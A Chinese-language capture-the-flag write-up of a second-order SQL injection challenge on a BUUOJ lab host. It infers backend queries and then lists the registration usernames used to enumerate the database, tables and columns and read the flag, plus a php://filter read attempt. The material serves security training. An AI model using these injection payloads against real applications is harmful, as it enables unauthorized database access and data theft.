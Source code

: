 # October 2019 Twice SQL Injection

## October 2019 Twice SQL Injection

## 考点

* 注册登录处的二次注入

## wp

看到链接是http://91074d2e-c159-41d3-94a5-47dc939e21bf.node4.buuoj.cn:81/?action=login

尝试`?action=php://filter/read=convert.base64-encode/resource=login`没有反应，那就走流程

有注册、登录和修改信息的功能，先注册用户试试，注册一个aaaaaa，登录可以看到info是有信息的，说明在登录查询之后还有个查询

```sql
select pass from users where name = 'aaa'
select info from users where name = 'aaa'
```

注册一个aaaaaa'，登录发现info变成空白，再注册aaa"，登录发现info又有信息了，可以猜一下后端的插入语句

```sql
insert into users (id,name,pass,info)
values (1,'aaa','aaa','something')
```

在修改info的时候，先改成123，看到返回123，更新完之后还有个查询

```sql
UPDATE users SET info = '123' WHERE name = 'aaa'
select info from users where name = 'aaa'
```

修改info尝试二次注入无果，再去注册登录处测试`bbb' union select database()#`&#x20;

```
insert into users (id,name,pass,info) values (1,'bbb' union select database()#','aaa','something')
```

在info那个查询处&#x20;

```
select info from users where name = 'bbb' union select database()#'
```

注册

```
bbb' union select database()#
bbb' union select group_concat(table_name) from information_schema.tables where table_schema='ctftraining' #
bbb' union select group_concat(column_name) from information_schema.columns where table_name='flag'#
bbb' union select flag from flag #
```

## 总结

1. 如果感觉有多个二次注入的点，都试试
